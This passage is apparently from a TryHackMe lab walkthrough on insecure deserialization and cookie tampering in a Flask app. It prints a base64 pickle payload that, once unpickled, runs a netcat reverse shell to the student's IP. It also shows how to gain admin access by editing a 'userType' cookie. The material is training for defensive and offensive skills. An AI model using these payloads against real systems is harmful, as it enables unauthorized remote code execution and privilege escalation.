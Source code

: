 --- ---

- **The Exploit** (Example)

	Now I'm not going to leave you hanging dry here. First, we need to set up a netcat listener on our Kali. If you are a subscriber, you can control your own [in-browser TryHackMe Kali Machine](https://tryhackme.com/my-machine).

	![](https://i.imgur.com/Ftsfnq0.png)

	Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.  

	Once this is complete, [copy-and-paste the source code from this python file (pickelme.py)](https://assets.tryhackme.com/additional/cmn-owasptopten/pickleme.py) to your kali and modify the source code to replace your "YOUR_IP" with your IP. [This can be obtained via the Access page](https://tryhackme.com/access).

	1. Create a python file to paste into, I have used "rce.py" for these examples:

	![](https://i.imgur.com/k93pazM.png)

	2. Paste the code from the GitHub site, replacing IP with your IP from the access page

	![](https://i.imgur.com/gfR2lcf.png)

	3. Execute "rce.py" via `python3 rce.py`

	4. Note the output of the command, it will look something similar to this:

	![](https://i.imgur.com/67OUbwN.png)

	5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:
	'gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=`    Yours may look slightly different, just ensure that you copy everything in-between the two speech marks `''`

	6. Paste this into the "encodedPayload" cookie in your browser:

	![](https://i.imgur.com/fZDayjD.png)  

	7. Ensure our netcat listener is still running:

	![](https://i.imgur.com/Ftsfnq0.png)

	8. Refresh the page. It will hang, refer back to your netcat listener:

	![](https://i.imgur.com/WESTagT.png)  

	If you have performed the steps correctly, you will now have a remote shell to your instance. No privilege escalation involved, look for the flag.txt flag!

---

<h2>What is Deserialization & Serialization?</h2>

**Deserialization** is the process of reconstructing a data structure or object from a series of bytes or a string in order to instantiate the object for consumption. This is the reverse process of serialization, i.e., converting a data structure or object into a series of bytes for storage or transmission across devices. To fetch an object state over a wire or read it from persistent storage, a system must be able to deserialize it from raw bytes.

![Deserialization Diagram](https://hazelcast.com/wp-content/uploads/2021/12/deserialization-diagram-800x367-1.png)

Data deserialization is the process of building a data object from a stream of bytes.

![Serialization-Deserialization Diagram](https://hazelcast.com/wp-content/uploads/2021/12/serialization-deserialization-diagram-800x318-1.png)

Serialization and deserialization work together to transform/recreate data objects to/from a portable format.


- **What does this mean?**

	Say you have a password of "password123" from a program that needs to be stored in a database on another system. To travel across a network this string/output needs to be converted to binary. Of course, the password needs to be stored as "password123" and not its binary notation. Once this reaches the database, it is converted or deserialised back into "password123" so it can be stored.

	![](https://i.imgur.com/ZB76mLI.png)

	Insecure deserialization occurs when data from an untrusted party (I.e. a hacker) gets executed because there is no filtering or input validation; the system assumes that the data is trustworthy and will execute it no holds barred.


- **Privilege Escalation from Cookies**

	![](https://i.imgur.com/P8o62li.png)

	Where you will be directed to your profile page. Notice on the right, you have your details.

	![](https://i.imgur.com/6fYd0td.png)

	Right-Click the Page and press "Inspect Element". Navigate to the "Storage" tab.

	![](https://i.imgur.com/1LMFfV0.png)  

  
- **Inspecting Encoded Data**

	You will see here that there are cookies are both plaintext encoded and base64 encoded. The first flag will be found in one of these cookies.


- **Modifying Cookie Values**

	Notice here that you have a cookie named "userType". You are currently a user, as confirmed by your information on the "myprofile" page.

	This application determines what you can and cannot see by your userType. What if you wanted to be come an admin?

	Double left-click the "Value" column of "userType" to modify the contents. Let's change our userType to "admin" and navigate to http://10.10.12.109/admin to answer the second flag.

- **Code Execution from Cookies**

	![](https://i.imgur.com/FwG0TBs.png)


- **What makes this form vulnerable?**

	If a user was to enter their feedback, the data will get encoded and sent to the Flask application (presumably for storage within a database for example). However, the application assumes that any data encoded is trustworthy. But we're hackers. You can only trust us as far as you can fling us (and that's nigh-on impossible online)  

	Although explaining programming is a bit out of scope for this room, it's important to understand what's going on in the snippet below:

	![](https://i.imgur.com/lgomAL9.png)  

	When you visit the "Exchange your vim" URL, A cookie is encoded and stored within your browser - perfect for us to modify! Once you visit the feedback form, the value of this cookie is decoded and then deserialised. Uh oh. In the snippet below, we can see how the cookie is retrieved and then deserialized via `pickle.loads`

	![](https://i.imgur.com/8id81K3.png)

	This vulnerability exploits Python Pickle, which I have attached as reading material at the end of the room. We essentially have free reign to execute whatever we like such as a reverse shell.  